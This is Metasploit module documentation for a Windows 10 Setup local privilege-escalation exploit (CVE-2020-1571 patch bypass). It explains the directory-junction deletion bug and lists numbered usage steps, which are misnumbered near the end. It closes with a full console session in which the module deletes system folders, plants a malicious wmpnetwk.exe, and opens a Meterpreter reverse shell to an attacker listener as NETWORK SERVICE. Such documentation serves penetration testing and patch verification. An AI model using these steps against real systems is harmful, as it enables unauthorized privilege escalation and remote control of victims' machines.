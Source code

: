 ## Vulnerable Application
Windows 10 v1803 to v2004 machines prior to the August 2020 Patch Tuesday updates are vulnerable to an local privilege elevation
vulnerability in Windows Setup due to a time-of-check-time-of-use (TOCTOU) issue when setting the directory permissions for the `C:\$WINDOWS.~BT`
directory. More specifically the code first called `CreateDirectoryW()` to create a directory before then setting the permissions
on that folder via a `SetSecurityInfo()` call. This allowed users to redirect the `SetSecurityInfo()` call by creating a directory junction 
at `C:\$WINDOWS.~BT`, or the directory which was created with open permissions (due to a `NULL` security descriptor being passed to the 
`CreateDirectoryW()` call), and thereby cause the `SetSecurityInfo()` call to be called on a different directory, which would then be granted 
different permissions, which could lead to a security flaw.

The issue with this, as discussed by @klinix5, who discovered the bug, is that whilst Microsoft correctly fixed this code so that only one
call is made to `CreateDirectoryW()` with the permissions that were previously set via the `SetSecurityInfo()` call, they didn't validate that
`C:\$WINDOWS.~BT` is actually a proper directory and not a directory junction prior to deleting it via a call to `DeleteFolderWithPath()` as part
of Windows Setup's cleanup code.

As a result an attacker can create the `C:\$WINDOWS.~BT` directory, set one of its subdirectories to be a directory junction pointing to a target
folder to be deleted, and the start the Windows Setup upgrade. This will cause Windows Setup to try and delete the `C:\$WINDOWS.~BT` directory 
as the `SYSTEM` user. However since `C:\$WINDOWS.~BT` is now a directory junction which points to an attacker specified directory, Windows Setup 
will instead delete that directory as the `SYSTEM` user, thereby granting the attacker arbitrary folder deletion as `SYSTEM`.

With the ability to delete arbitrary folders as the `SYSTEM` user, attackers can then proceed to use the directory deletion technique described in
@jonaslyk's Secret.Club post at https://secret.club/2020/04/23/directory-deletion-shell.html to elevate their privileges to `SYSTEM` via a DLL planting
attack. 

This module uses the patch bypass as well as a variation of @jonaslyk's technique, to gain a shell as `NT AUTHORITY\NETWORK SERVICE` on affected Windows 10
systems prior to version 2004. This patch bypass is unpatched as of August 25th 2020.

### Installation And Setup
All affected systems should have Windows Setup installed as it is a core component of Windows 10 operating systems and it cannot be removed.

## Verification Steps
  1. Start msfconsole
  2. Get a session as a low privileged user on a Windows 10 machine
  3. Do: On the target machine go to ```Settings``` and click ```Check for Updates```. 
  4. Confirm that you can see a section titled ```Feature Update``` with a link titled ```Download and Install``` underneath it.
  5. Do: ```use exploit/windows/local/cve_2020_1571_windows_setup_lpe```
  6. Do: ```set SESSION <sess_no>```
  7. Do: ```set WaitTime <minutes>``` to set the number of minutes you want the exploit to wait for the DLL to complete its job before continuing.
  8. Do: ```set WritableDir <directory>``` if you want to alter the location of the writeable directory to place temporary files into.
  9. Do: Set the ```LPORT``` and ```RHOST``` options for the payload as needed.
  10. Do: ```run``` 
  8. Click the ```Download and Install``` button under the section titled ```Feature Update``` to start the system upgrade process.
  7. You should get a shell running as ```NT AUTHORITY\NETWORK SERVICE``` a few minutes after the timer specified in the ```WaitTime``` option expires.

## Options
  **WaitTime**
  Time to wait for the reflectively loaded DLL to exploit CVE-2020-1571 and complete its operations
  before the Metasploit code runs and tries to gain privileges via a DLL hijacking attack. Setting
  this timer to too low of a value will result in the exploit failing so it's recommended to set 
  this slightly over your expected wait time to allow for a margin of error.
  
  **WritableDir**
  Location of a directory that the current user on the target system has write access to. Used to 
  store various temporary files as part of the exploitation process.

## Scenarios

### Windows 10 v1909 x64 - Build 18363.1016
```
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_1571_windows_setup_lpe
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > show options

Module options (exploit/windows/local/cve_2020_1571_windows_setup_lpe):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   SESSION                        yes       The session to run this module on.
   WaitTime     10                yes       Number of minutes to wait for the reflectively injected DLL's operations to complete before continuing
   WritableDir  C:\Windows\Temp\  yes       The location of a directory the current user can write to


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set SESSION 17
SESSION => 17
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set LHOST 172.19.16.1
LHOST => 172.19.16.1
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set LPORT 5512
LPORT => 5512
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > set WaitTime 5
WaitTime => 5
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > show options

Module options (exploit/windows/local/cve_2020_1571_windows_setup_lpe):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   SESSION      17                yes       The session to run this module on.
   WaitTime     5                 yes       Number of minutes to wait for the reflectively injected DLL's operations to complete before continuing
   WritableDir  C:\Windows\Temp\  yes       The location of a directory the current user can write to


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.19.16.1      yes       The listen address (an interface may be specified)
   LPORT     5512             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows EXE Dropper


msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > exploit

[*] Started reverse TCP handler on 172.19.16.1:5512
[*] Payload injected. Executing exploit...
[*] Please go to Settings, Check for Updates, and then click Download and Install under the section titled Feature Update.
[*] Sleeping for 5 minutes whilst the update process takes place and the DLL runs...
[+] Exploit successfully deleted the WER and Windows Media Player directories!
[*] Using schtasks to run the QueueReporting task to create the WER directory with open permissions...
[*] Creating mount point between the WER directory and \RPC Control...
[+] Created the directory junction successfully!
[+] Created the symbolic link between \RPC Control\Temp and \??\c:\Program Files\Windows Media Player successfully!
[*] Running the QueueReporting task again to create the folder C:\Program Files\Windows Media Player with open permissions...
[+] Created the malicious EXE at C:\Program Files\Windows Media Player\wmpnetwk.exe
[*] Setting the permissions on the malicious EXE at C:\Program Files\Windows Media Player\wmpnetwk.exe so that everyone can access it...
[*] Sending stage (200262 bytes) to 172.19.31.210
[*] Meterpreter session 18 opened (172.19.16.1:5512 -> 172.19.31.210:54368) at 2020-08-25 18:06:58 -0500
[+] Should be good to go, enjoy the shells!

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > background
[*] Backgrounding session 18...
msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                     Connection
  --  ----  ----                     -----------                                     ----------
  17        meterpreter x64/windows  DESKTOP-EMAVUN1\test @ DESKTOP-EMAVUN1          0.0.0.0:0 -> 172.19.31.210:4444 (172.19.31.210)
  18        meterpreter x64/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-EMAVUN1  172.19.16.1:5512 -> 172.19.31.210:54368 (172.19.31.210)

msf6 exploit(windows/local/cve_2020_1571_windows_setup_lpe) >
```
